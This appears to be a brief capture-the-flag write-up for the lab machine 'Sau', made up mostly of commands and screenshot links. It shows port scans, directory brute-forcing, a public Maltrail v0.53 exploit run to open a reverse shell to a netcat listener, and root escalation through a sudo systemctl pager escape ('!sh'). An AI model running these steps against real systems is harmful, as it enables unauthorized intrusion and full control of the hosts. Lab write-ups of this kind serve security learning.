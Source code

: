 # ****10.10.11.224 - Sau****

```bash
rustscan -a 10.10.11.224
```

![image](https://github.com/lufffe/Writeups/assets/90646635/357c3476-3b33-4a07-85e9-ef92ae057edd)

```bash
nmap -A -p 22,55555 10.10.11.224
```

![image](https://github.com/lufffe/Writeups/assets/90646635/3af5ddde-27c9-4e00-a834-936613cc6841)

```bash
gobuster dir -u [http://sau.htb:55555](http://sau.htb:55555/) -w directory-list-2.3-small.txt -t 100 --no-error -b 400,404
```

![image](https://github.com/lufffe/Writeups/assets/90646635/f457fc71-4732-4e6a-bf55-3f1dcdf6e84c)

http://sau.htb:55555/web

![image](https://github.com/lufffe/Writeups/assets/90646635/66832557-c07f-4a20-87c3-69ac57d3880c)

![image](https://github.com/lufffe/Writeups/assets/90646635/4614fdd3-0922-4c4e-abea-b01c1da57303)

![image](https://github.com/lufffe/Writeups/assets/90646635/634e7000-e669-4078-bf87-f8de21d859f5)

https://github.com/spookier/Maltrail-v0.53-Exploit

```bash
nc -lnvp 4455
```

```bash
python exploit.py http://10.10.11.224:55555 10.10.14.8 4455
```

```bash
cat /home/puma/user.txt
```

```bash
sudo -l
```

![image](https://github.com/lufffe/Writeups/assets/90646635/9025966b-3a09-49dc-a8c4-c20c7b870a4a)

puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service

![image](https://github.com/lufffe/Writeups/assets/90646635/5e0c2624-5350-4ca3-849a-3100a9bfdd25)

!sh

![image](https://github.com/lufffe/Writeups/assets/90646635/7f2633cd-e45d-4cd4-8e8e-03308804b7fb)

```bash
cat /root/root.txt
```
